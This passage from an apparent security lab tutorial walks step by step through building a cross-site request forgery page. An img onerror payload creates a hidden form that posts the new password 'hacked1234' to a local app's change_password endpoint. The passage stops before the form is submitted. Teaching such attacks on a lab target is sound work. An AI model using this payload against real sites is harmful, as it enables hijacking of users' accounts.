 
    - Notice the `<input type="text" name="new_password" placeholder="New Password">`. The `name` is what binds the text you put in the textbox to the HTTP request to change the password. You will use the `name` value `new_password` in your `csrf_attack.html`

8. Back in VS Code inside the `csrf_attack.html` file, define an input element in the JavaScript code
    ```html
    <img src="x" onerror="
        const f = document.createElement('form');
        f.action = 'http://localhost:8088/change_password';
        f.method = 'POST';

        const i = document.createElement('input')
    "/>
    ```

9. Set the type of input to `hidden` so that its not visible to the user
    ```html
    <img src="x" onerror="
        const f = document.createElement('form');
        f.action = 'http://localhost:8088/change_password';
        f.method = 'POST';

        const i = document.createElement('input');
        i.type = 'hidden';
    "/>
    ```

10. Set a name reference of the input that will be used to send to the HTTP request. The name reference will be the value you saw in the inspect window of the `Change Password` form
    ```html
    <img src="x" onerror="
        const f = document.createElement('form');
        f.action = 'http://localhost:8088/change_password';
        f.method = 'POST';

        const i = document.createElement('input');
        i.type = 'hidden';
        i.name = 'new_password';
    "/>
    ```

11. Set the value of the input field. This value will be the new password when the malicious script is executed
    ```html
    <img src="x" onerror="
        const f = document.createElement('form');
        f.action = 'http://localhost:8088/change_password';
        f.method = 'POST';

        const i = document.createElement('input');
        i.type = 'hidden';
        i.name = 'new_password';
        i.value = 'hacked1234'
    "/>
    ```
